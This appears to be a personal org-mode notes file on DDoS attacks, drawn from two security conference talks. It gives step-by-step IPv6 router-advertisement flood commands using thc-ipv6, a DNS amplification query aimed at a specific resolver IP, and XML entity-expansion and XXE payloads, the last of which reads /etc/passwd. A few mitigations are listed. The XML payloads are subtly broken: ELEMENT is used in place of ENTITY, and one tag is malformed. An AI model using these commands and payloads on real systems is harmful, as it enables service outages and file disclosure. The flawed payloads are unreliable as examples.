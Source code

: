 #+TAGS: sec ddos


* DDoS								   :sec:ddos:
* Cmds
* Overview
* Types of DDoS
- Javascript
- NTP reflection 
- DNS reflection
- RA Flood
* DDOS Ransom Groups
- Armada Collective
- Lizard Squad
- DD4BC
* Lecture
** [[https://www.youtube.com/watch?v%3Dq2FxTgd3uTE][Evil Dos Attacks and Strong Defenses - Sam Browne & Matthew Prince]]
- SockStress
  - flow control - window size of 0 - can not send anymore - Sever keeps process up
    - open many process and kill the server
    
- New RA Flood
  - Each RA now contains
    - 17 Route information sections
    - 18 Prefix information sections
  - How to perform this attack
    - for best results use a gigabit ethernet NIC on attacker and a gigabit switch
    - use thc-ipv6 2.3 on kali
    - two terminal windows:
      1. ./fake_router6 eth a::/64
      2. ./flood_router26 eth1
    - Windows dies within 30 seconds

  - Mitigation 
    - Disable IPv6 - not practical
    - Turn off Router Discovery with netsh
    - use a firewall to block rogue RAs
    - Get a switch with RA Guard
    - MS "IPv6 Readiness Update"
      
- Annoyance attacks 10-80Gbps range
- 60Gbps - to this to take down american banks  

- what is need to a quick, dirty and dangerous ddos
  - a list of open dns resolvers - misconfigured dns servers
  - some servers running on networks that allow source IP spoofing
    
- send as much as you can
#+BEGIN_SRC sh
dig ANY isc.org @63.217.84.76 +edns=0 +notcp +bufsize=4096
#+END_SRC
this amplification is 50x

- Good networks don't let packets originate from IPs they don't own (BCP38)
- lots of bad networks that allow spoofed ips
  
** [[https://www.youtube.com/watch?v%3DFi-nI-Faj4I][Attacking Network Infrastructure to Generate a 4Tbs DDos]]
- What is Internet2
  - 282 Higher Education Institutes
  - 86 Corporations
  - 66 Affiliate members (Gov)
  - 42 Regional and State Education Networks
    
- Internet2 Products
  - Trust Identity & Middleware
    - InCommon Federation
    - Shibboleth
  - Performance & Analytics    
    - BWCTL - Bandwidth Test Controller
    - NDT - Network Diagnostic Tool
    - OWAMP - One Way Ping
    - perfSONAR - pS-Performance Toolkit
      - wrapper for all of the tools
      
- Attacking PerfSONAR
  - xml lolz attack
    - using the xml entity property create a huge referenced string that has to be parsed by python/perl/etc
#+BEGIN_SRC sh
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ELEMENT lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ELEMENT lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ELEMENT lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<lolz>&lol3;</lolz>
#+END_SRC    
continue this to create a massive string

  - system Entity - this allowes for a system file to be loaded into an entity
#+BEGIN_SRC sh
<?xml version ="1.0"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo&xxe;</foo>
#+END_SRC

* Tutorial
* Books
* Links
